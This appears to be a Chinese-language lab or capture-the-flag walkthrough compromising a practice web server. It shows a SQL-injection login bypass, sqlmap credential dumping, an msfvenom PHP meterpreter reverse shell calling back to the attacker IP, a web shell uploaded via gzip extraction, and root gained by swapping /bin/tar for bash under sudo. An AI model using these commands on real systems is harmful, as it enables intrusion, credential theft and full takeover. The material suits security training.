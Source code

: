 
# 环境
攻击机IP：192.168.1.10<br />目标机IP：192.168.1.17


# 实战
使用NMAP扫描端口，可以看到只开放了一个80端口
```
nmap -Pn -sV 192.168.1.17
```
![image.png](_img\06-靶场实践/1657691498343-c378d19b-7cf8-45e5-8074-47793f766110.png)

访问Web服务显示`You must login to access restricted content`
![image.png](_img\06-靶场实践/1657691502505-b42d1c2d-e962-4bc7-9e53-e03304171dbc.png)

尝试使用万能密码`' or 1=1 #`登录，登录成功
![image.png](_img\06-靶场实践/1657691507396-b9277167-679f-4415-8d59-13d788ecc827.png)

在浏览网页中发现存在文件上传，尝试上传shell.php木马文件<br />生成木马文件，将得到的木马代码复制到文本中并命名位shell.php

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.10 lport=4444 -f raw
```
![image.png](_img\06-靶场实践/1657691513293-685edf14-f61f-4740-a26b-fcff50865996.png)

上传失败显示`已禁用用户alamo的主目录上载`
![image.png](_img\06-靶场实践/1657691544433-5d14c166-45ee-4de5-8744-c65189db9c9c.png)

那么我们就需要找一个拥有上传权限的用户，在前面我们知道登录页面存在SQL注入，尝试使用SQLMAP爆库，使用burp抓包，将数据保存到2.txt中
![image.png](_img\06-靶场实践/1657691563728-70f0745b-5824-4c17-ad91-184d2b307383.png)

```
sqlmap -r 2.txt -dbs
```
![image.png](_img\06-靶场实践/1657691568285-638944cd-5037-461c-84e1-4374b9f8e217.png)

经过查找在creds库中的accounts表中存在username和password字段
```
sqlmap -r 2.txt -D creds -T accounts --columns
```
![image.png](_img\06-靶场实践/1657691573159-b9f09c65-6d01-4c01-9cff-5ee4d4e20beb.png)

得到账号和密码
```
sqlmap -r 2.txt -D creds -T accounts -C username,password --dump
```
![image.png](_img\06-靶场实践/1657691578258-4bd42c05-e58b-41ad-9b7d-7b71ac36ff86.png)

尝试使用jjames账号登录上传shell.php木马文件，成功上传
![image.png](_img\06-靶场实践/1657691582169-f7e14df3-3141-4f24-a9dd-d6ea3f3b90b5.png)

找了很久没有找到上传文件所在的路径，尝试重新上传，这时我注意到在上传界面有`Enable the automatic extraction of gzip archives.(启用gzip存档的自动提取。)`，这次我们尝试将其勾选，上传压缩包然后自动提取文件。
```
tar -zcvf shell.tar.gz shell.php     --压缩shell.php
```
![image.png](_img\06-靶场实践/1657691586118-a163f069-3840-455b-a4fb-54c4383457db.png)

依然是找了很久没有找到上传文件所在的目录，然后我发现在文件上传页面的标题`Home directory uploader(主目录上载程序)`，主目录，那么可能是将文件上传到了用户的主目录，尝试浏览`http://192.168.1.17/~jjames/`，果然找到了所上传的文件。
![image.png](_img\06-靶场实践/1657691590046-ae5305c1-f2ca-4e36-b3ce-e147c6fd5a6f.png)

使用MSF启动监听
```
root@kali-xmtx:~/桌面#msfconsole                                           --启动MSF
msf6 > use exploit/multi/handler                                           --选择模块
exploit(multi/handler) > set payload php/meterpreter/reverse_tcp           --设置payload
msf6 exploit(multi/handler) > set lhost 192.168.1.10                       --设置IP
msf6 exploit(multi/handler) > set lport 4444                               --设置端口
msf6 exploit(multi/handler) > run                                          --运行
```
![image.png](_img\06-靶场实践/1657691594817-067d8eaa-6c7e-4beb-9f5f-eb7310e910cb.png)

在Web页面点击上传的木马，成功反弹shell(注意：此处的木马文件必须是打包上传的，否则无法执行)
![image.png](_img\06-靶场实践/1657691600314-db8b9c4b-0f86-4b3a-becf-17e376dd0d22.png)

进入shell输入`python -c 'import pty;pty.spawn("/bin/bash")'`使界面变得正常，查看权限
![image.png](_img\06-靶场实践/1657691604839-afab33ad-fca7-4af7-b1c9-cfee6f7fb9b4.png)

使用`sudo -l`命令，可以看到有多个命令将允许用户www-data以root身份进行sudo
![image.png](_img\06-靶场实践/1657691609118-1d2f3b1d-bdbc-48c7-8e61-7e3d59f7767a.png)

转到`/tmp`目录，将`/bin/bash`文件复制到`/tmp`文件夹，更改文件`/tmp/bash`的所有权，以便从此以后的根成为所有者
![image.png](_img\06-靶场实践/1657691612868-c504a0dd-21d0-4997-9659-a11c8d96827a.png)

将现有的`/bin/tar`文件备份到`bin/tar.bak`，然后将`/tmp/bash`文件移动到`/bin/tar`，执行命令/bin/tar
![image.png](_img\06-靶场实践/1657691616760-a5f1c43b-1856-4184-a94a-e0d3d796979e.png)

查看权限，成功获取到root权限
![image.png](_img\06-靶场实践/1657691620921-700c9c4a-86ec-4466-868a-94c4828d2cee.png)
